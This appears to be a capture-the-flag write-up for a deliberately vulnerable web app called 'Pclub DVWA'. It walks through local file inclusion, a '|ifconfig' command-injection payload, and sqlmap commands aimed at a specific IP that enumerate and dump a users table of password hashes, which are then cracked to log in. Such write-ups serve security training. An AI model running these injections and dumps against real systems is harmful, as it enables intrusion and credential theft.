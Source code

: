 ```yaml
---


---
```


<h1 id="pclub-dvwa">Pclub DVWA</h1>
<p>DVWA stands for Damn Vulnerable Web Application , and yes the website was indeed vulnerable ;) . For the first flag a simple look at the source of the images rendered on the gallery pages reveals a possibility of LFI (Local File Inclusion) vulnerability , and it indeed happens to be true. A simple modification to the paths leads us to the routes.txt file.<br>
And we get our first flag :</p>
<pre><code>pclub{path_trav3rsa1_1s_fun} 
</code></pre>
<p><img src="https://s12.gifyu.com/images/Sf9mK.gif" alt="flag1"></p>
<p>For the next flag following the hint leads to the /ipDetails where a simple test for command injection via simple payload of |ifconfig reveals the flag.</p>
<pre><code>60:45:bd:af:3f:e5
</code></pre>
<p><img src="https://s12.gifyu.com/images/Sf9mv.md.gif" alt="flag2"></p>
<p>For the next flag possibilities of exploitation exists in the routes /secretary_login and /blogs . Going to secretary login route shows a simple login form which use multipart-form data for sending a POST request. Testing this route using SQlmap for Sqli reveals it to be non injectable. Hence we shift our attention to the /blogs route where for rendering of the blogs /getBlogDetail path is used. Putting this route to test indeed reveals that it is vulnerable to SQL Injection.</p>
<p>Further using the following commands in SQLMap allows us to get the list of DBs , using which we can query for the tables and the columns in those tables.</p>
<p><strong>For testing against SQLinjection :</strong></p>
<pre><code> sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link"
</code></pre>
<p>For exploitation the following commands were used :<br>
<strong>List of Databases :</strong></p>
<pre><code>sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link" --dbs
</code></pre>
<p>[<img src="https://i.postimg.cc/X7SPQf3s/image.png" alt="image.png">]<br>
<strong>List of Tables :</strong></p>
<pre><code>sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link" -D pclub_secy_task --tables
</code></pre>
<p><strong>List of Columns in the User Table :</strong></p>
<pre><code>sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link" -D pclub_secy_task -T USERS --columns
</code></pre>
<p><strong>Dumping Data from all available columns in the User Table:</strong></p>
<pre><code> sqlmap -u "http://74.225.254.195:2324/getBlogDetail?blog=1&amp;part=link" -D pclub_secy_task -T USERS -C user,password,userhash --dump
</code></pre>
<p><img src="https://gcdnb.pbrd.co/images/GmHycIFu12Br.png" alt="sqlmap output"><br>
After dumping the data in the csv format and opening it , we find a list of usernames and associated password hashes and username hashes , from the data in the hints table its clear these hashes are MD5 hashes . A quick search of these hashes on known hashes website <a href="http://Hashes.com">Hashes.com</a>. Reveals that all of these hashes are of passwords which have already been leaked in the internet before .</p>
<p><img src="https://gcdnb.pbrd.co/images/punnvoGcdu8x.png" alt="hashes"><br>
<img src="!%5B%5D(%60https://gcdnb.pbrd.co/images/n2bdDiBVzAXm.png?o=1%60)" alt="unhashed"><br>
After logging in with the user:pass of kaptaan we get the flag ,<br>
<img src="!%5B%5D(https://gcdnb.pbrd.co/images/oUCbPUjJZcrX.png?o=1)" alt="sqli_flag"></p>
<p>Logging in with the password obtained for ritvikg22 gets us to the link of the pwn_task , whereas logging in with amansg22 gets us the log of Aerial Robotics IITK. Uploading this image on <a href="https://www.aperisolve.com/">aperisolve</a> which is a website which checks an image against common steg tactics applied on the image reveals a QR code embedded inside it.</p>
<p><img src="https://i.postimg.cc/GtSZmN6r/image.png" alt="Flag_4"></p>
<p>Scanning that QR code gives the flag.</p>
<pre><code>pclub{data_1s_3v3ryth1ng)
</code></pre>

